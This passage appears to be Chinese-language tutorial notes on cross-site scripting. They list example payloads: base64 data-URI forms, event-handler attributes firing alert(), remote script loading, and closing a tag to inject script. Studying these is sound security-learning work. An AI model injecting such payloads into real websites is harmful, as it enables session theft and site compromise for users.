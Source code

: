                 <form method=post action="data:text/html;base64,<script>alert('xss')</script>">
                <form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
                ```
    
    - **在html标签内通过事件来调用js代码：**
    
        - [事件参考手册]（https://www.w3school.com.cn/tags/html_ref_eventattributes.asp）
    
        - `<img>标签`,`<video>标签`等
    
            ```html
            <img src=1 onerror=alert('hack');alert(2)>
            <!--多行js语句使用;分隔，而且可以加或者不加引号包裹js代码-->
            
            <a 		href="" 				onclick=eval(alert('xss'))>aa</a> 
            <input 	value="" 				onclick=alert('xss') type="text"> 
            <input 	name="name" value="" 	onmouseover=prompt('xss') bad=""> 
            <iframe src="aaa" 				onmouseover=alert('xss') /><iframe> 
            <style 							οnlοad=alert(1)></style>
            <body 							οnlοad=alert(1)>
            <form action=1 					onmouseover=alert('xss)> 
            ```
    
    - **CSS样式表中嵌入js代码：**
    
        - 测试了几个都没成功执行js代码。
    
    - **加载远程js文件**
    
        - **外部引用JavaScript文件。**
            - 如`<script type="text/javascript" src="../js/jquery-1.8.3.js"></script>`（相对路径）
            - 或`<script src="http://common.cnblogs.com/script/jquery.js" type="text/javascript"></script>`（绝对路径）；
        - **在js代码中基于DOM的方式引用外部js文件：**
    
            ```javascript
            <script>
              window.onload = function(){
                var script = document.createElement("script");
                script.setAttribute("type","text/javascript");
                script.src = "http://common.cnblogs.com/script/jquery.js";
                document.getElementsByTagName("head")[0].appendChild(script);  
              }
            </script>
            ```
    
- **根据之前的html和js的解析顺序，我们知道首先要闭合html标签，使得html解析不产生问题。然后根据情况选择上述任意方法插入js代码。**

- 最简单的就是闭合前后的标签，中间插入`<script>alert()</script>`来执行js代码。

    ```html
    <div id="用户输入"></div> 
    <!-- 插入  "><script>alert(1)</script><div  -->
    
    <!--拼接之后-->
    <div id=""><script>alert(1)</script><div></div>
    ```
